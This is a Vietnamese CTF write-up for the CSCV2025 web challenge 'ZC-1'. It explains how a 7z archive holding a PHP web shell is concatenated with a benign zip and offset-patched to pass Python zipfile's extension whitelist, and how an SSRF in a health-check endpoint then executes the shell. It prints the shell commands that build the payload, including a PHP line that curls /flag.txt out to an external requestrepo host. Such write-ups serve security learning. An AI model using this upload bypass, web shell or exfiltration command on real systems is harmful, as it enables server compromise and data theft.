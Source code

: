 
+++
date = '2025-10-20'
draft = false
title = 'CSCV2025 | Web | ZC-1'

categories = ["writeup"]
tags = ["web"]
posttypes = ["CTF"]
host = ["CSCV"]

+++


# ⚔️ ZC-1

- **Category:** Web
- **Difficulty:** _
- **Author:** _
- **Description**: _
- **Resource**: _


![image](https://hackmd.io/_uploads/S1omJ7XAex.png)


# 🛰️Recon

## Tổng quan chung: 

Challenge bao gồm 2 ứng dụng web với:
- app1 là ứng dụng web Python cho phép đăng kí, đăng nhập, và upload file zip, ứng dụng được expose với port 8080
- app2 là ứng dụng web Php phục vụ cho việc giải nén là lưu trữ các file vừa upload, ứng dụng không thể truy cập từ bên ngoài mà chỉ có thể thông qua app1 hoặc từ bên trong

## Chi tiết

### App1
Ứng dụng bao gồm các endpoint sau (bỏ qua một số chi tiết không quan trọng):
- POST `/gateway/user` : cho phép người đăng kí với các trường username, password
- POST `/gateway/transport` : cho phép người dùng đã xác thực upload file zip
    - Endpoint này sử dụng thư viện `zipfile` trong python để thực hiện kiểm tra file extension của các file entry trong file zip được upload dựa trên whilelist trước khi gửi nó đến endpoint `upload.php` của app2
- GET `/gateway/health` : nhận vào param `module` cho phép người dùng kiểm tra hoạt động của các endpoint tại app2
- POST `auth/token` : thực hiện xác thực người dùng với username và password, trả vể session token (sử dụng cho việc xác thực) và refresh token

### App2
Ứng dụng bao gồm các endpoint sau
- POST `upload.php`: cho phép upload file zip (từ app1) và thực hiện giải nén file zip và lưu các file sau khi đã giải nén trong folder `upload/<user_id>`
- `health.php`: một file rỗng chỉ nhằm mục đích kiểm tra kết nối, hoạt động của app2

# 🧪 Dig & Analyze
Dựa trên cấu trúc của challenge, hệ thống cho phép upload file zip sau đó thực hiện giải nén và lưu trữ các file entry trong ứng dụng web Php (thư mục lưu trữ file không có cấu hình để ngăn việc thực thi file .php). Vậy mục tiêu challenge ở đây khả năng cao là upload web shell thông qua việc upload file zip chứa file entry nguy hiểm. 

Dựa trên mục tiêu trên, có 2 vấn đề cần giải quyết:
## 1. Làm thế nào để bypass được file extension check ở app1 -> Zip Concatenation
Trong khi app1 thực hiện kiểm tra file zip upload với thư viện `zipfile` thì app2 lại sử dụng `Archive7z\Archive7z` hay công cụ `7z` để thực hiện giải nén file zip. 

>Bạn có thể chủ động tìm hiểu thêm về cấu trúc file zip để hiểu rõ hơn bài wriuteup, bài wriueup không đi sâu vào phân tích cấu trúc file zip hay giải thích cụ thể về lỗ hổng zip concatenation

Đi vào chi tiết hơn cách mà 2 trình zip parser này hoạt động:

- **Đối với `python zipfile`**, trình đọc zip này không bắt đầu đọc từ đầu tệp mà thay vào đó, nó quét ngược từ cuối file để tìm kiếm lần lượt **End of Central Directory**,  **Central Directory**, **file entry** dựa trên offset.
    ![image](https://hackmd.io/_uploads/rkWyeumCll.png)
- **Đối với `7z`**, định dạng này đặt signature và các header của nó ở đầu tệp. Công cụ 7z bắt đầu phân tích file zip từ đầu tệp (offset = 0)
    ![image](https://hackmd.io/_uploads/SJBGg_QRgl.png)
    
-> Điểm không đồng nhất ở đây cùng với hình ảnh mô tả của challenge gợi cho tôi ý tưởng về việc tận dụng điểm khác biệt của 2 trình zip parser để tạo một file zip hợp lệ với cả 2 trình parser tuy nhiên nội dung đọc được của chúng lại khác nhau bởi cơ chế phân tích của chúng khác nhau.

Tìm hiểu thêm một vài kĩ thuật tấn công liên quan đến định dạng file Zip tôi tìm được kĩ thuật **Zip Concatenation** phù hợp với tình huống lỗ hổng này

## 2. Làm thế nào để có thể thực thi file php nếu đã upload được thành công -> SSRF
Ứng dụng app1 cho phép kiểm tra hoạt động của backend tại endpoint GET `/gateway/health`. Endpoint này nhận vào params `module`, input này được nối chuỗi vào `storage_url` mà không qua kiểm tra sàng lọc dẫn đến có thể khai thác SSRF ở đây để gọi đến file php được upload -> Thực thi thành công file .php
![image](https://hackmd.io/_uploads/HkQzR770lx.png)

# 🔥 Exploit

## Tạo payload
1. Tạo file zip an toàn chứa các file entry phù hợp với whitelist của challenge
```bash
echo helloworld > user.txt
zip user.zip user.txt >/dev/null
```
2. Tạo 7z archive chứa web shell 
```bash
echo '<?php system("curl https://w4zhdt6e.requestrepo.com/ -F \"file=@/flag.txt\"") ?>' > shell.php
7z a -t7z evil.7z shell.php >/dev/null
```
![image](https://hackmd.io/_uploads/B1Fc8jmRxe.png)


File này có kích thước là 207 bytes (0xCF bytes)

3. Chỉnh sửa payload sao cho hợp lệ với zipfile

Chúng ta sẽ thực hiện nối 2 file đơn giản bằng việc sử dụng lệnh cat
```
cat evil.zip user.zip > zipconcat.zip
```

Tuy nhiên file zip này chưa hợp lệ bởi việc thêm trước file zip một file 7z sẽ khiến offset của phần user.zip bị thay đổi, do đó cần thực hiện chỉnh sửa offset sao cho payload này hợp lệ với zipfile


Các 2 vị trí offset cần thay đổi (9D bởi thêm vào trước file này 0x9D bytes) là:
- offset tới Central Directory:
    - nằm trong phần End of Centrol directory
    - có giá trị là 4D 
    - chỉnh sửa thành `11C = 4D + CF`
- offset tới Local file Header 
    - nằm tại offset 42 tình từ đầu mỗi Central Directory
    - có giá trị là 00 
    - chỉnh sửa thành `CF = 00 + CF`

![image](https://hackmd.io/_uploads/ByUSdi7Agl.png)

Trực tiếp thay đổi offset bằng việc sử dụng hex editor

![image](https://hackmd.io/_uploads/SJzXYoXRgx.png)

```bash
cat evil.7z user.zip > zipconcat.zip
```

4. Kiểm tra file với python zipfile
![image](https://hackmd.io/_uploads/Hkxtz5XCle.png)

5. Kiểm tra file zip với 7z
Vì tập lệnh đặt tệp lưu trữ 7z ở ngay đầu tệp được kết hợp, nên các công cụ 7z sẽ coi tệp được kết hợp như một tệp lưu trữ 7z bình thường và trích xuất nội dung 7z (tệp PHP trong ví dụ của bạn) mà không cần động đến các cấu trúc ZIP được thêm vào phía dưới
![image](https://hackmd.io/_uploads/BJcpMcQRxg.png)
Mặc dù có thông báo lỗi bởi 7z phát hiện còn các bytes ở cuối file nhưng payload vẫn được giải nén thành công
![image](https://hackmd.io/_uploads/r18ZQ5X0ee.png)

## Thực hiện tấn công
Tạo tài khoàn người dùng và lấy Authorization token (JWT):

![image](https://hackmd.io/_uploads/rycWGimRlg.png)


![image](https://hackmd.io/_uploads/H1i1zjQRxe.png)


Thực hiện upload file payload vừa tạo với Authorization header chứa token vừa lấy được

![image](https://hackmd.io/_uploads/ryTOMjmAex.png)


Thực hiện SSRF thể thực thi file php đã upload, tuy nhiên cần xác định được vị trí của file trên server

![image](https://hackmd.io/_uploads/Byhx3qmRxl.png)

File sau khi extract được lưu tại thư mục `upload/<user_id>`, chúng ta có thể dễ dàng tìm được user id trong JWT token

![image](https://hackmd.io/_uploads/r1lafjmCee.png)

Thực hiện SSRF

![image](https://hackmd.io/_uploads/SkFocoQRxx.png)

Mặc dù request trả về "ERR" nhưng chúng ta vẫn thành công lấy được flag

![image](https://hackmd.io/_uploads/r1wxjo70el.png)


# 🏆 EXP
-> Zip Concatenation


